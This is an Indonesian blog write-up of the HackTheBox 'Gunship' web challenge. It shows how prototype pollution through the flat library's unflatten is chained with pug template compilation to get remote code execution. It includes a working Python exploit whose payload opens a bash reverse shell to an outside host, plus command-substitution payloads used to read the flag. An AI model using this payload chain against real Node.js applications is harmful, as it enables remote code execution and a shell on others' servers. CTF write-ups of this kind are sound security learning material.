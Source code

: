 ```yaml
---
title: "HackTheBox - Gunship"
date: 2023-12-29 07:18:00 +0700
categories: [HackTheBox, Challenges]
tags: [very easy, web]
image:
    path: /assets/img/hackthebox/challenges/web/gunship.png
    alt: Gunship - HackTheBox
---
```


**Gunship** ialah salah satu tantangan kategori web dari situs HackTheBox, Gunship ini sebenarnya tantangan lama tapi karena saya belum coba, jadi saya kerjakan aja. Ini perjalanan/panduan saya. Oh iya, disini kita akan mempelajari tentang exploit, burpsuite dll.

## Introduction

- Munculkan mesin, hahaha....
- Dan download file-nya

## Enumeration

Pertama-tama kita buka webnya dulu, dan analisis. Lihat dibagian bawah web, kita bisa inputkan sesuatu disitu. **"Who's your favourite artist?"**. Untuk menjawabnya, baca dulu bacaan dibagian atas. Jika kita input asal-asalan akan muncul teks **"Please provide us with the full name of an existing member."**.

Setelah baca yang diatas, terdapat dua nama, yaitu **Dan Haigh and Alex Westaway**. Nah, coba salah satu. Dan hasilnya **Hello guest, thank you for letting us know!**.

Hummm. Coba kita analisis file yang sudah didownload tadi. Nah setelah di ekstrak didalamnya ada banyak file, buka yang folder challenge. Di dalam direktori challenge kan ada flag, gak mungkin lah yaa menemukan flag semudah itu, coba baca flagnya **HTB{f4k3_fl4g_f0r_t3st1ng}**, sudah saya bilang `:)` bruhhhhh, coba analisis yang lain dahh. Nah ada yang menarik di bagian `package.json`.

```
{
	"name": "gunship",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"scripts": {
		"start": "node index.js",
		"dev": "nodemon .",
		"test": "echo \"Error: no test specified\" && exit 1"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}
```
{: file='package.json'}

Dibagian depedencies ada flat dan pug, hummm. Coba cari digoogle exploitnya, setelah saya cari kalau kerentanan dari flat itu kita bisa `prototype pollution` dan pug itu kita bisa `mengeksekusi kode`. Coba telusuri dan analisis file lainnya, masuk direktori routes baca index.js

```
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```
{: file='routes/index.js'}

Humm, lihat dibagian router post, ada `unflatten` dan `pug.compile`. Coba cari digoogle lagi `:)`, untuk `pug.compile` tidak ada yang menarik, tapi untuk yang `unflatten` ini menarik, coba search `unflatten exploit` buka yang [hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution), nah disitu ada bagian pug, analisis itu. Kita bisa copy dari bagian awal protoblock sampai selesai akhir protoblock.

```python
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
})

# execute
requests.get(TARGET_URL)
```
```python
"__proto__.block": {
    "type": "Text", 
    "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}
```

Sekarang buka burpsuite, jalan kan yang bagian input-an tadi, masukkan ke repeater burp. Nah di dalam bagian `execSync()` kita ubah jadi `'$(ls)'`, kita akan menampilkan filenya apa aja yang ada di situ. 

![Desktop View](/assets/img/hackthebox/challenges/include/Gunship-1.png){: .w-75}

Lihat hasilnya `/bin/sh: flagkmBDk: not found`, nah sekarang coba kita ganti `'$(cat flagkmBDk)'`

![Desktop View](/assets/img/hackthebox/challenges/include/Gunship-2.png){: .w-75}

*/bin/sh: HTB{f4k3_fl4g_f0r_t3st1ng}*

> kenapa kok fake flag? karena saya menjalankan yang file Docker, bukan yang dari HTB nya langsung.
{: .prompt-info}